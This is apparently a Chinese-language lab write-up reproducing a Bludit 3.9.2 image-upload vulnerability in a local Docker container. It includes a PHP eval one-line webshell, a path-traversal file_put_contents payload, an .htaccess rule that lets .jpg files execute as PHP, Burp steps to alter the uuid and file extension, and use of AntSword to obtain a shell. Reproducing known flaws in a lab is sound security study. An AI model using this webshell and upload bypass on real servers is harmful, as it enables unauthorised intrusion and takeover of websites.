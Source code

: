# 漏洞复现记录

- php相关

  - file_put_contents() 把一个字符串写进文件文件

    ```php
    <?php file_put_contents("../../uploads/shell.php","<?php phpinfo();?>");?>
    ```

    把<?php phpinfo();?>写入shell.php

    ```
    ./ 当前目录
    ../ 父级目录
    / 根目录
    ```

    疑问：**为什么../../**

    原因：通过查看docker hub上的builds记录，上的dokcerfile猜测上传图片的位置是在`/usr/share/nginx/html/bl-content `,经过验证发现是在`/usr/share/nginx/html/bl-content/uploads/pages/uuid`，所以是../../回到content目录。

  - phpinfo()：查看php信息

    <?php phpinfo();?>

  - .htaccess文件

    -  全称是Hypertext Access(超文本入口) ，在一个特定的文档目录中放置一个包含一个或多个指令的文件， 以作用于此目录及其所有子目录 

    - 文件内容:让.jpg文件可以执行php程序

      ```php
    RewriteEngine off
      AddType application/x-httpd-php.jpg
      ```
      
    - **RewriteCond %{REQUEST_FILENAME} !-f**
     \#如果文件存在，就直接访问文件，不进行下面的RewriteRule.(不是文件或文件不存在就执行重写)
    
    **RewriteCond %{REQUEST_FILENAME} !-d**
       \#如果目录存在就直接访问目录不进行RewriteRule
     **RewriteRule ^(.*)$ index.php/$1 [QSA,PT,L]**
       \#对于所有的（ ^(.*) ）加上 “index.php/”  拼接为index.php/XXX( ^(.*) )，
     追加请求串（QSA）移交给下一个处理器 pass through（PT（可不是代理为MIME类型，PT是一个flage）），而且这是 last最后的rules（L）的 。
  
  - 连接shell：[一句话木马]( https://bbs.ichunqiu.com/thread-17816-1-1.html )

    -  `<?php @eval($_POST['pw']); ?>` 

      1. `$_POST['pw']`意思是a这个变量是用post的方法接受。

      2. `eval()`把字符串作为PHP代码执行

         例如: eval("echo 'a'");其实就等于直接 echo 'a'; 

      3. 这句话的意思就是： 用post方法接收变量pw,把变量pw里面的字符串当做php代码来执行 。

  - 查看端口占用问题：
  
    `sudo netstat -anp`，不给sudo不给查看全部
  
    结束进程：`sudo kill -9 [pid]`
  
    
  
    

#### 容器构建

- 本地构建镜像

  `	sudo docker build -f Dockerfile -t bludit:v3.9.2 .`

  `sudo docker run --name bludit -p 8000:80 -d bludit:v3.9.2`

- dockerhub镜像

  `sudo docker pull bludit/docker:3.9.2`

  `sudo docker run --name bludit -p 8000:80 -d bludit/docker:3.9.2`

- docker hub上有[bludit3.9.2]( https://hub.docker.com/r/bludit/docker/builds )(有漏洞版本)的dockerfile。

  

#### 本地漏洞复现

- 漏洞成因，根据发布者的漏洞利用过程，此漏洞是再上传图片的时候会把图片的uuid作为一段路径，代码中没有检查uuid是否合法，导致上传webshell可以随便修改上传路径。
- 利用效果：获得对方shell
- **[复现过程](https://www.anquanke.com/post/id/197105)**

1. 容器起来以后本地访问，本地安装，用户管理员身份登录或者以用户身份登录。

2. 点击`撰写新文章`，点击`图片`按钮，上传图片。

3. 同时用brupsuite拦截请求，修改`uuid`，进入容器查看能看到图片文件上传成功。

   ![](img/jpg-upload.png)

4. 再上传`.htaccess`文件让图片执行,提示是不能上传成功，文件类型不正确，进入容器后发现确实没有上传成功

   ![](img/htaccess-error.png)

   

   

5. 图片不能执行php代码

   ![](img/jpg-error.png)

6. 用brupsuite拦截请求修改文件扩展名，可以直接上传php文件，再浏览器访问上传的php页面`http://192.168.56.102:8001/admin/bl-content/tmp/2.php`出现[`no file input  specified `]( https://blog.51cto.com/xiahongyuan/852424 )，尝试在容器访问其他类型的文件`jpg` `txt`，是出现404错误。

   

7. 修改了一下源码`.htaccess`中x·的代码，不让它进行路由重写，没有效果。初步**猜测是**`.htaccess`文件没有生效，apache服务的httpd.config，文件的[AllowOVerride]( https://www.jianshu.com/p/81305ca91ebd ) 没有启用。

   **然后根据dockerfile可以看出容器用到的是ngix服务，下面是容器内一些ngix配置文件。**

   ![](img/nginx1.png)

8. 试着更改了一下访问路径`http://192.168.56.102:8001/bl-content/tmp/1.php`，然后发现可以加载出 `phpinfo()`这个页面，shell还是连不上

   ![](img/info.png)

   用菜刀连接shell，200证明可以访问成功的，还是连接不了shell

   ![](img/shell.png)

9. 换了一下连接shell的工具[**中国蚁剑**]( https://github.com/AntSwordProject/AntSword )，能够利用成功了，成功获得shell。蚁剑是开放源代码的，功能比菜刀更加强大。

   ![](img/success.png)

#### matesploit利用（未成功）

[matesploit]( https://www.exploit-db.com/exploits/47699 )

需要更新matesploit（v5.0.41-dev->v5.0.80-dev）

- 在自己手动增加模块的时候出现了错误

  尝试解决办法: 

  1. 重启数据库 
  
   	2. msfdb init 
        	3. [postgresql数据库未在端口5432上进行侦听]( https://kb.help.rapid7.com/discuss/59949cbc078ec3000f0d5b8f ) 
           	4. [Metasploit缺少MetasploitC lass兼容性错误]( https://github.com/VKSHRIMALII/metasploitclasscerror )
  
  ![](img/matesploit1.png)



#### 问题

- 问题1：kali安装不上的问题再下载grub的时候失败

  解决：分的磁盘空间太少，一开始试默认的8g，改成15g就可以了

  kali的登录账户名是root用户

- 问题2：kali开两个网卡nat网卡没有ip

  解决：只保留Nat转换网络，使用端口转发，转发到主机端口，通过`ssh root@127.0.0.01 -P 11222`即可登录

- 问题3：没有需要的matesploit模块

  解决：1. matesploit更新

  ​		    2. 手动增加模块

- 问题4：能够确定可以上传含恶意代码的webshell.jpg，但是上传不了.htaccess文件，然后通过，url链接下载了3.9.2版本的源码，然后发现代码已经修改了，对文件扩展名进行了过滤。根据commit记录试图把修改的代码改回来，发现修改后不能上传文件了。

  测试方式:修改源码从本地构建镜像

- 新起的容器无法完成安装和登录

  解决：硬盘内存满了，清理磁盘

  1. 查看磁盘空间`df -h`
  2.  apt-get autoclean：*清理*旧版本缓存 
  3.  apt-get clean：*清理*所有缓存 
  
  

- 容器扩容

# 参考

[中国蚁剑--比菜刀更牛的shell控制端 ]( https://www.3hack.com/tools/17.html )